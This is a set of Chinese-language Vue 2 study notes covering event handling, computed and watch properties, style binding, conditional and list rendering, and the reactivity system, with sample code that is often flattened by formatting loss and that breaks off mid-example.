捕获阶段（Capturing Phase） ：事件从最顶层的祖先元素（通常是 window）开始向下传递，直到目标元素。目标阶段（Target Phase） ：事件到达触发该事件的目标元素本身。冒泡阶段（Bubbling Phase） ：事件从目标元素开始向上传递，依次经过其祖先元素，直到 window。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 <!DOCTYPE html > <html lang ="en" > <head > <meta charset ="UTF-8" > <title > Document</title > <script src ="../js/vue.js" > </script > <style > * { margin-top : 20px ; } .demo1 { height : 50px ; background-color : skyblue; } .box1 { padding : 5px ; background-color : skyblue; } .box2 { padding : 5px ; background-color : orange; } .list { width : 200px ; height : 20px ; background-color : peru; overflow : auto; } li { height : 100px ; } </style > </head > <body > <div id ="root" > <h2 > 欢迎来到 {{name}} 学习</h2 > <a href ="https://www.baidu.com" @click.prevent ="showInfo" > 点我提示信息</a > <div class ="demo1" @click ="showInfo" > <button @click.stop ="showInfo" > 点我提示信息</button > </div > <button @click.once ="showInfo" > 点我提示信息</button > <div class ="box1" @click.capture ="showMsg(1)" > <div class ="box2" @click ="showMsg(2)" > </div > </div > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { name : 'Vue' }, methods : { showInfo (e ) { alert ('你好啊朋友！' ) }, showMsg (msg ) { alert (msg) } } }) </script > </body > </html > </html >
事件修饰符可以连着写，如 @click.stop.prevent 表示先阻止冒泡，再阻止默认事件。
016 键盘事件 & 017 事件总结
Vue 中常用的按键别名：
Vue 未提供别名的按键，可以使用按键原始的 key 值去绑定，但注意要转为 kebab-case（短横线命名）
如 CapsLock 键应转为 caps-lock
系统修饰键（用法特殊）：ctrl、alt、shift、meta
也可以使用 keycode 去指定具体的按键（不推荐）
Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <div id ="root" > <h2 > 欢迎来到 {{name}} 学习</h2 > <input type ="text" placeholder ="按下回车提示输入" @keyup.enter ="showInfo" > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { name : 'Vue' }, methods : { showInfo (e ) { console .log (e.target .value ); } } }) </script >
这段代码将在按下 enter 键后调用 showInfo() 以显示输入框里的值。
八、计算属性
018 姓名案例
插值语法 methods
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <div id ="root" > <input type ="text" v-model ="firstName" > <br /> <input type ="text" v-model ="lastName" > <br /> <span > {{firstName}}-{{lastName}}</span > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { firstName : '张' , lastName : '三' } }) </script >
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <div id ="root" > <input type ="text" v-model ="firstName" > <br /> <input type ="text" v-model ="lastName" > <br /> <span > {{fullName()}}</span > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { firstName : '张' , lastName : '三' }, methods : { fullName ( return this .firstName + '-' + this .lastName } } }) </script >
019 计算属性
计算属性：
定义：要用的属性不存在，要通过已有属性计算 得来。
原理：底层借助了 objcet.defineproperty 方法提供的 getter 和 setter。
get() 什么时候执行？
初次读取时会执行一次。
当依赖的数据发生改变时会被再次调用。
优势：与 methods 实现相比，内部有缓存机制（复用），效率更高，调试方便。
备注：
计算属性最终会出现在 vm 上，直接读取使用 即可。
如果计算属性要被修改，那必须写 set() 函数去响应修改，且 set() 中要引起计算时依赖的数据发生改变 。
使用 computed 实现计算属性。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 <div id ="root" > <input type ="text" v-model ="firstName" > <br /> <input type ="text" v-model ="lastName" > <br /> <input type ="text" v-model ="fullName" > <br /> </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { firstName : '张' , lastName : '三' }, computed : { fullName : { get ( return this .firstName + '-' + this .lastName }, set (value ) { const arr = value.split ('-' ) this .firstName = arr[0 ] this .lastName = arr[1 ] } } } }) </script >
020 计算属性_简写
将 fullName: {get(){}} 用 fullName(){} 简写。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <div id ="root" > <input type ="text" v-model ="firstName" > <br /> <input type ="text" v-model ="lastName" > <br /> <input type ="text" v-model ="fullName" > <br /> </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { firstName : '张' , lastName : '三' }, computed : { fullName ( return this .firstName + '-' + this .lastName } } }) </script >
九、监视属性
021 天气案例
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <div id ="root" > <h2 > 今天天气很{{info}}</h2 > <button @click ="changeWeather()" > 切换天气</button > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { isHot : true }, computed : { info ( return this .isHot ? '炎热' : '凉爽' } }, methods : { changeWeather ( this .isHot = !this .isHot } } }) </script >
022 监视属性
watch 可以监听哪些属性是否被改变。
监视属性 watch：
当被监视的属性变化时，回调函数自动调用，进行相关操作
监视的属性必须存在，才能进行监视！！
监视的两种写法:
new Vue 时传入 watch 配置通过 v.$watch 监视
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 <div id ="root" > <h2 > 今天天气很{{info}}</h2 > <button @click ="changeWeather()" > 切换天气</button > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { isHot : true }, computed : { info ( return this .isHot ? '炎热' : '凉爽' } }, methods : { changeWeather ( this .isHot = !this .isHot } }, watch : { isHot : { handler (newValue, oldValue ) { console .log ('isHot 被修改了' , newValue, oldValue) } } } }) </script >
也可以这么写：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 Vue .config .productionTip = false const v = new Vue ({el : '#root' ,data : {isHot : true computed : {info (return this .isHot ? '炎热' : '凉爽' methods : {changeWeather (this .isHot = !this .isHot 'isHot' , {handler (newValue, oldValue ) {console .log ('isHot 被修改了' , newValue, oldValue)
023 深度监视
深度监视：
Vue 中的 watch 默认不监测对象内部值的改变（一层）
配置 deep: true 可以监测对象内部值改变（多层）。
备注:
Vue 自身可以监测对象内部值的改变，但 Vue 提供的 watch 默认不可以 ！
使用 watch 时根据数据的具体结构，决定是否采用深度监视。
如果某个属性具有多级结构，可用如下方法监视：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 <div id ="root" > <h3 > a 的值为：{{numbers.a}}</h3 > <button @click ="numbers.a++" > 点我让 a + 1</button > <h3 > b 的值为：{{numbers.b}}</h3 > <button @click ="numbers.b++" > 点我让 b + 1</button > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { isHot : true , numbers : { a : 1 , b : 2 } }, methods : { changeWeather ( this .isHot = !this .isHot } }, watch : { 'numbers.a' : { handler ( console .log ('a 值被改变了！' ) } } } }) </script >
也可通过 deep: true 开启深度监视：
1 2 3 4 5 6 7 8 watch: { : { : true , { } } }
024 监视的简写形式
1 2 3 4 5 6 watch: { , oldValue) { , newValue, oldValue)} }
或：
1 2 3 v.$watch('isHot' , function (newValue, oldValue ) {console .log ('isHot 被修改了' , newValue, oldValue)
这么写的代价是无法配置监视属性。
025 watch 对比 computed
computed 和 watch 之间的区别：
computed 能完成的功能，watch 都可以完成。watch 能完成的功能，computed 不一定能完成，例如：watch 可以进行异步操作。
两个重要的小原则：
所被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才是 vm 或组件实例对象。
所有不被 vue 所管理的函数（定时器的回调函数、ajax 的回调函数等、Promise 的回调函数），最好写成箭头函数，这样 this 的指向才是 vm 或组件实例对象。
使用 watch 实现姓名案例：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <div id ="root" > <input type ="text" v-model ="firstName" > <br /> <input type ="text" v-model ="lastName" > <br /> <input type ="text" v-model ="fullName" > <br /> </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { firstName : '张' , lastName : '三' , fullName : '张-三' }, watch : { firstName (val ) { this .fullName = val + '-' + this .lastName }, lastName (val ) { this .fullName = this .firstName + '-' + val } } }) </script >
十、绑定样式
026 绑定 class 样式
绑定 class 样式：
写法
适用范围
字符串写法
样式的类名不确定，需要动态指定
数组写法
要绑定的样式个数不确定、名字也不确定
对象写法
要绑定的样式个数确定、名字也确定，但要动态决定用不用
代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 <!DOCTYPE html > <html lang ="en" > <head > <meta charset ="UTF-8" > <title > Document</title > <style > .basic { width : 400px ; height : 100px ; border : 1px solid black; } .happy { border : 4px solid red; background-color : rgba (255 , 255 , 0 , 0.644 ); background : linear-gradient (30deg , yellow, pink, orange, yellow); } .sad { border : 4px dashed rgb (2 , 197 , 2 ); background-color : gray; } .normal { background-color : skyblue; } .style1 { background-color : yellowgreen; } .style2 { font-size : 30px ; text-shadow : 2px 2px 10px red; } .style3 { border-radius : 20px ; } </style > <script src ="../js/vue.js" > </script > </head > <body > <div id ="root" > <div class ="basic" :class ="mood" @click ="changeMood" > {{name}}</div > <br > <br > <div class ="basic" :class ="classArr" > {{name}}</div > <br > <br > <div class ="basic" :class ="classObj" > {{name}}</div > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { name : 'Vue' , mood : 'normal' , classArr : ['style1' , 'style2' , 'style3' ], classObj : { style1 : false , style2 : true } }, methods : { changeMood ( const arr = ['happy' , 'sad' , 'normal' ] const index = Math .floor (Math .random () * 3 ) this .mood = arr[index] } }, }) </script > </body > </html > </html >
效果：

027 绑定 style 样式
绑定样式：
class 样式
写法：class="xxx"，xxx 可以是字符串、对象、数组。
字符串写法适用于：类名不确定，要动态获取。
对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用
style 样式（较少用）
:style="{fontsize:xxx}" 其中 xxx 是动态值。
:style="[a,b]" 其中 a、b 是样式对象。
1 2 3 4 <div class ="basic" :style ="styleObj" > {{name}}</div > <br > <br > <div class ="basic" :style ="styleArr" > {{name}}</div > <br > <br >
对应的 Vue 实例：
1 2 3 4 5 6 7 8 styleObj: { : '40 px', : 'red'} , : { : 'orange'} , : [ this.styleObj, this.styleObj2]
十一、条件渲染
028 条件渲染
条件渲染：
v-if
写法：
v-if="表达式"v-else-if="表达式”v-else="表达式"
适用于：切换频率较低的场景。
特点：不展示的 DOM 元素直接被移除 。
注意：v-if 可以和：v-else-if、v-else 一起使用，但要求结构不能 被“打断”
v-show
写法：v-show="表达式"
适用于：切换频率较高的场景。
特点：不展示的 DOM 元素未被移除，仅仅是使用样式隐藏掉 。
备注：使用 v-if 的时，元素可能无法获取到，而使用 v-show 一定可以获取到。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <div id ="root" > <h2 > 当前 n 的值是 {{n}}</h2 > <button @click ="n++" > 点我 n + 1</button > <h2 v-show ="false" > 欢迎来到{{name}}</h2 > <h2 v-show ="true" > 欢迎来到{{name}}</h2 > <h2 v-if ="false" > 欢迎来到{{name}}</h2 > <h2 v-if ="1 === 1" > 欢迎来到{{name}}</h2 > <div v-if ="n === 1" > Angular</div > <div v-else-if ="n === 2" > React</div > <div v-else > React</div > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { name : 'Vue' , n : 0 } }) </script >
十二、列表渲染
029 列表渲染
v-for 指令：
用于展示列表数据
语法：v-for="(item, index) in xxx" : key="yyy"
可遍历：数组、对象、字符串（较少用）、指定次数（较少用）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 <div id ="root" > <h2 > 人员列表（遍历数组）</h2 > <ul > <li v-for ="(p, index) of persons" :key ="index" > </li > </ul > <h2 > 汽车信息（遍历对象）</h2 > <ul > <li v-for ="(value, k) of car" :key ="k" > </li > </ul > <h2 > 测试遍历字符串</h2 > <ul > <li v-for ="(char, index) of str" :key ="index" > </li > </ul > <h2 > 测试遍历指定次数</h2 > <ul > <li v-for ="(number, index) of 5" :key ="index" > </li > </ul > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { name : 'Vue' , persons : [ {id : '001' , name : '张三' , age : 18 }, {id : '002' , name : '李四' , age : 19 }, {id : '003' , name : '王五' , age : 20 } ], car : { name : '奥迪 A8' , price : 'price' , color : '黑色' }, str : 'hello' } }) </script >

030 key 作用与原理
面试题：react、vue 中的 key 有什么作用？（key 的内部原理）
虚拟 DOM 中 key 的作用：key 是虚拟 DOM 对象的标识，当状态中的数据发生变化时，Vue 会根据【新数据】生成【新的虚拟 DOM】随后 Vue 进行【新虚拟 DOM】与【旧虚拟 DOM】的差异比较，比较规则如下：
对比规则：
用 index 作为 key 可能会引发的问题：
开发中如何选择 key?：
最好使用每条数据的唯一标识作为 key，比如 id、手机号、身份证号、学号等唯一值。
如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示,使用 index 作为 key 是没有问题的。


031 列表过滤
将过滤后的结果存在 filPersons 中，查找时在 persons 中进行，这样就不会破坏原数据。
watch 实现 computed 实现
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 <div id ="root" > <input type ="text" placeholder ="请输入搜索关键字..." v-model ="keyword" > <ul > <li v-for ="(p, index) of filPersons" :key ="p.id" > </li > </ul > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { keyword : '' , persons : [ {id : '001' , name : '马冬梅' , age : 30 , sex : '女' }, {id : '002' , name : '周冬雨' , age : 31 , sex : '女' }, {id : '003' , name : '周杰伦' , age : 21 , sex : '男' }, {id : '004' , name : '温兆伦' , age : 22 , sex : '男' }, ], filPersons : [] }, watch : { keyword : { immediate : true , handler (val ) { this .filPersons = this .persons .filter ((p ) => { return p.name .indexOf (val) !== -1 }) } } } }) </script >
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 <div id ="root" > <input type ="text" placeholder ="请输入搜索关键字..." v-model ="keyword" > <ul > <li v-for ="(p, index) of filPersons" :key ="p.id" > </li > </ul > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { keyword : '' , persons : [ {id : '001' , name : '马冬梅' , age : 30 , sex : '女' }, {id : '002' , name : '周冬雨' , age : 31 , sex : '女' }, {id : '003' , name : '周杰伦' , age : 21 , sex : '男' }, {id : '004' , name : '温兆伦' , age : 22 , sex : '男' }, ] }, computed : { filPersons ( return this .persons .filter ((p ) => { return p.name .indexOf (this .keyword ) !== -1 }) } } }) </script >
032 列表排序
JavaScript 中 .sort()：
以此：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 <div id ="root" > <input type ="text" placeholder ="请输入搜索关键字..." v-model ="keyword" > <button @click ="sortType = 2" > 年龄升序</button > <button @click ="sortType = 1" > 年龄降序</button > <button @click ="sortType = 0" > 原顺序</button > <ul > <li v-for ="(p, index) of filPersons" :key ="p.id" > </li > </ul > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { name : 'Vue' , sortType : 0 , keyword : '' , persons : [ {id : '001' , name : '马冬梅' , age : 30 , sex : '女' }, {id : '002' , name : '周冬雨' , age : 31 , sex : '女' }, {id : '003' , name : '周杰伦' , age : 21 , sex : '男' }, {id : '004' , name : '温兆伦' , age : 22 , sex : '男' }, ] }, computed : { filPersons ( const arr = this .persons .filter ((p ) => { return p.name .indexOf (this .keyword ) !== -1 }) if (this .sortType ) { arr.sort ((p1, p2 ) => { return this .sortType === 1 ? p2.age - p1.age : p1.age - p2.age }) } return arr } } }) </script >
033 更新时的一个问题 & 034 Vue 监测数据的原理_对象
Vue 中监测数据变化的核心机制是其响应式系统，它通过 数据劫持 和 依赖收集 实现对数据变化的侦测和响应式更新。以下是其背后的主要原理：
1. 数据劫持（Object.defineProperty 或 Proxy）
Vue 2 使用 Object.defineProperty，Vue 3 则切换到更强大的 Proxy。
Vue 2 中的实现：
使用 Object.defineProperty 来拦截对象属性的 读取 和 设置 操作。
对于每个属性，定义了 getter 和 setter 方法：
getter ：在属性被访问时触发，进行依赖收集。setter ：在属性被修改时触发，通知依赖更新。
局限性：
只能劫持对象的已有属性，新增属性或删除属性不会触发响应式（需要使用 Vue.set）。
对数组的原生方法（如 push、splice）需要特殊处理，通过重写这些方法实现响应式。
Vue 3 中的优化：
使用 Proxy，可以直接监听对象的所有操作（包括新增、删除属性和数组索引的修改）。
更加灵活、性能更高，解决了 Vue 2 的一些局限性。
2. 依赖收集
Vue 的响应式系统通过依赖收集和发布订阅模式实现。
关键组件：
Watcher ：
每个组件或计算属性都有一个 Watcher 实例，负责记录对响应式数据的依赖。
当依赖的数据发生变化时，Watcher 会被触发更新。
Dep（Dependency） ：
一个依赖管理器，用来保存所有依赖某个响应式数据的 Watcher。
当数据发生变化时，Dep 会通知相关的 Watcher 进行更新。
工作流程：
数据被访问时**（通过 getter）**，当前活动的 Watcher 会被添加到该数据的依赖列表中。
数据被修改时**（通过 setter）**，触发对应的 Dep 通知所有依赖更新。
3. 虚拟 DOM 与批量更新
Vue 使用虚拟 DOM 结合异步队列优化更新流程：
当数据变化时，setter 通知依赖更新，但不会立即更新 DOM。
Vue 会将更新操作放入队列中，并在下一个事件循环中批量更新，避免频繁的 DOM 操作。
4. 响应式原理的应用
响应式系统支持以下特性：
双向绑定 ：通过 v-model 实现表单与数据的同步。计算属性 ：基于依赖的变化自动计算。侦听器 ：通过 watch 监控特定数据的变化并执行回调。
总结
Vue 的响应式系统通过以下机制协作：
使用数据劫持技术（Vue 2：Object.defineProperty，Vue 3：Proxy）。
实现依赖收集和发布订阅模式。
结合虚拟 DOM 和异步更新队列，确保性能和开发体验。
这种设计不仅高效，而且为开发者屏蔽了复杂性，使得数据绑定和状态管理变得直观。
035 Vue.set() 方法
**一个属性必须有 get() 和 set() 才能被 Vue 跟踪到！**如果要给 data 中的一个对象加一个属性，可以使用 Vue.set() 来实现（这样才会有 get() 和 set()）：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 <div id ="root" > <h1 > 学生信息</h1 > <button @click ="addSex" > 添加一个性别属性，默认值是男</button > <h2 > 姓名：{{student.name}}</h2 > <h2 v-if ="student.sex" > 性别：{{student.sex}}</h2 > <h2 > 年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2 > <h2 > 朋友们</h2 > <ul > <li v-for ="(f, index) in student.friends" :key ="index" > </li > </ul > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { student : { name : 'tom' , age : { rAge : 40 , sAge : 29 , }, friends : [ {name : 'jerry' , age : 35 }, {name : 'tony' , age : 36 } ] } }, methods : { addSex ( this .$set(this .student , 'sex' , '男' ) } } }) </script >
036 Vue 检测数据的原理_数组
直接操作数组的索引值将不跟踪！Vue 只有在使用数组有关的下列函数，才会检测到数组被改变，从而跟踪到（用到了包装技术）：
在 Vue 2 中，数组的更新检测是有限制的。由于 JavaScript 的数组特性，Vue 无法侦听某些直接的数组操作，因此提供了一些内置的方法来实现响应式更新。这些方法对 Vue 2 的响应式系统进行了增强，确保数据变更能被正确地检测到和响应。
Vue 2 对数组的更新检测提供了以下七个方法 ，这些方法都是对原生数组方法的包装：
1. push()
功能 ：向数组末尾添加一个或多个元素。
触发更新 ：响应式地添加新元素并触发视图更新。
1 2 3 4 5 6 7 let vm = new Vue ({data : {items : [1 , 2 , 3 ]items .push (4 );
2. pop()
功能 ：移除数组末尾的元素。触发更新 ：响应式地移除最后一个元素并触发视图更新。
3. shift()
功能 ：移除数组开头的元素。触发更新 ：响应式地移除第一个元素并触发视图更新。
4. unshift()
功能 ：向数组开头添加一个或多个元素。触发更新 ：响应式地在开头添加新元素并触发视图更新。
5. splice()
功能 ：添加、替换或删除数组中的元素。触发更新 ：响应式地修改数组并触发视图更新。1 vm.items .splice (1 , 1 , 'a' );
6. sort()
功能 ：对数组进行排序。触发更新 ：响应式地对数组排序并触发视图更新。
7. reverse()
功能 ：反转数组顺序。触发更新 ：响应式地反转数组并触发视图更新。
注意事项
对数组的直接索引赋值不会触发更新 ：
Vue 2 无法侦测类似 vm.items[0] = 10 这样的操作。
解决办法：使用 Vue.set()。1 Vue .set (vm.items , 0 , 10 );
数组长度的直接修改不会触发更新 ：
类似 vm.items.length = 2 的操作不会触发响应式更新。
避免直接修改数组长度。
通过这些方法，Vue 2 能够对数组的变更进行有效的监听，并自动触发相关的视图更新。这种响应式机制是 Vue 2 的核心功能之一。
也可用 Vue.set() 改变数组的值来更新数组。
1 Vue .set (vm._data .student .hobby , 1 , '打台球' )
037 总结 Vue 监视数据
Vue 监视数据的原理：
Vue 会监视 data 中所有层次的数据；
如何监测对象中的数据？
通过 setter 实现监视，且要在 new Vue 时就传入要监测的数据。
对象中后追加的属性，Vue 默认不做响应式处理
如需给后添加的属性做响应式，请使用如下 API：
Vue.set(target, propertyName/index, value) 或wm.$set(target, propertyName/index, value)
如何监测数组中的数据？
通过包裹数组更新元素的方法实现，本质就是做了两件事：
调用原生对应的方法对数组进行更新。
重新解析模板，进而更新页面。
在 Vue 修改数组中的某个元素一定要用如下方法：
使用这些 API：push()、pop()、shift()、unshift()、splice()、sort() 和 reverse()；
Vue.set() 或 vm.$set()
特别注意：Vue.set() 和 vm.$set() 不能给 vm 或 vm 的根数据对象 添加属性！
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 <div id ="root" > <h1 > 学生信息</h1 > <button @click ="student.age++" > 年龄 +1 岁</button > <br > <button @click ="addSex" > 添加性别属性，默认值：男</button > <br > <button @click ="student.sex = '未知'" > 修改性别</button > <br > <button @click ="addFriend" > 在列表首位添加一个朋友</button > <br > <button @click ="updateFirstFriendName" > 修改第一个朋友的名字为：张三</button > <br > <button @click ="addHobby" > 添加一个爱好</button > <br > <button @click ="updateHobby" > 修改第一个爱好为：开车</button > <br > 